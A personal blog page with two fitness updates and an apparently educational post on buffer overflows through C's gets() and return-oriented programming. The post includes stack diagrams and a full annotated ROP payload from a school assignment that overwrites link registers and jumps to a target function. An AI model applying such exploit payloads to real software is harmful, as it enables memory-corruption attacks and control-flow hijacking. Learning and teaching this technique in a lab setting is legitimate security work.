 ```yaml
---
layout: page
title: Blog 
permalink: /blog/
---
```


# First Running Milestone Achieved
 
<text style="color : gray">February 8, 2024</text>

First fitness goal of 2024 achieved: Sub-25-minute 5KM run. 

<br>
<br>

# Hacking the stack using code injection and ROP 

<text style="color : gray">February 2, 2024</text>

Using C's `gets()` function can have serious cybersecurity risks.

Say a function asks for a 16-byte string argument from a user: 

```c
int main() { 
    char buf[16];
    gets(buf);
    return 0;
}
```

Then, upon calling `gets(buf)`, the stack will look something like
```
higher addr's

|      stack contents     |
|-------------------------|
|      stack contents     |
|-------------------------|
|      stack contents     |
|-------------------------|
|      buf bytes 0-7      |
|-------------------------|
|      buf bytes 8-15     |
--------------------------- < top of stack
```

The issue with this is that `gets()` will keep reading and copying input from the input past 16 bytes allocated for `buf`.

What happens then? 

Lets use the following input bytes as an example: 

```
ff ff ff ff ff ff ff ff 
ff ff ff ff ff ff ff ff 
12 34 56
```

Then, the stack might look a bit like: 

```
|      stack contents     |
|-------------------------|
|      stack contents     |
|-------------------------|
| 12 34 56 k contents     |
|-------------------------|
| ff ff ff ff ff ff ff ff |
|-------------------------|
| ff ff ff ff ff ff ff ff |
--------------------------- < top of stack
```

Even though we have filled buf, the program keeps loading in bytes 
onto the stack until a terminating character is entered. Anything that was previously stored on the stack can get overwritten.

What's stored on the stack? 

Link Registers (saved addresses to return to after a subroutine)!

This means that when we are inside a subroutine, somewhere on the stack there is a return address saved to jump back to once we exit the current subroutine.

Thus, we can overwrite the address on the stack using `gets(buf)` and a carefully crafted user input. One example I had from a school assignment:

```
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
54 3e 45 00 00 00 00 00 // 0x453e54, address of gadget 1 (load x1) to load in read_file lr
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
80 9a 44 00 00 00 00 00 // 0x449a80, address of gadget 2 to load x0, placed in lr during gadget 1
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
90 ca f0 ff ff ff 00 00 // 0xfffffff0ca90, value of x1 (addr of ph33rm3n00bz)
11 11 11 11 11 11 11 11
e8 07 40 00 00 00 00 00 // 0x4007e8, addr of pwn3
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
3c 00 00 00 00 00 00 00  // 60, value to put in x0 in gadget 2
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
70 68 33 33 72 6d 33 6e // ph33rm3n00bz, value to put in x1, placed near value of $sp when reaching pwn3 
30 30 62 7a 00 00 00 00 
``` 
The above input was used to overwrite 3 link registers, overwrite 2 registers, and jump to a special function in the code.


<br>
<br>

# Fitness Goals for 2024

1. Sub-25min 5K 
2. Sub-50min 10K
3. Sub 2hr half-marathon (21.1k)
4. Sub 4hr marathon (42.2k)

<text style="color : gray">January 4, 2024</text>
